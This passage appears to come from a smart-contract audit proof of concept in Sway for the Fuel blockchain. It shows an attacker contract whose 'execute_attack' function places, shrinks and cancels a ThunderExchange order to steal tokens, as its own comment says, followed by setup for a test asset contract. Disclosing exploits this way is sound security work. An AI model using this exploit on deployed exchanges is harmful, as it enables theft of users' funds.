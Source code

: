 ```rs
        storage.strategy.write(Option::Some(strategy));
    }

    #[storage(read)]
    fn execute_attack(order: MakerOrderInput, amount_to_seal: u64) {
        let exchange_addr = storage.exchange.read().unwrap().bits();
        let exchange = abi(ThunderExchange, exchange_addr);

        exchange.place_order{ asset_id: AssetId::new(order.collection, order.token_id).bits(), coins: order.amount }(order);

        let new_order = MakerOrderInput {
            side: order.side,
            maker: order.maker,
            collection: order.collection,
            token_id: order.token_id,
            price: order.price,
            amount: amount_to_seal, // amount_to_seal - 1 will be the amount stolen :)
            nonce: order.nonce,
            strategy: order.strategy,
            payment_asset: order.payment_asset,
            expiration_range: order.expiration_range,
            extra_params: order.extra_params,
        };

        exchange.update_order(new_order);
        exchange.cancel_order(order.strategy, order.nonce, order.side);
    }
}
```

#### test\_asset folder

In the `test_asset` folder. The test asset is simply the Fuel Team SRC3 [example](https://github.com/FuelLabs/sway-standards/blob/master/examples/src3-mint-burn/multi_asset/src/multi_asset.sw)

* Add the below in the `forc.toml`:

```rs
[project]
authors = ["Blockian"]
entry = "main.sw"
license = "Apache-2.0"
name = "test_asset"

[dependencies]
standards = { git = "https://github.com/FuelLabs/sway-standards", tag = "v0.4.4" }
```

* Add the below in the `main.sw`:

````rs
contract;

use standards::{src20::SRC20, src3::SRC3};
use std::{
    asset::{
        burn,
        mint_to,
    },
    call_frames::msg_asset_id,
    context::msg_amount,
    hash::Hash,
    storage::storage_string::*,
    string::String,
};
````
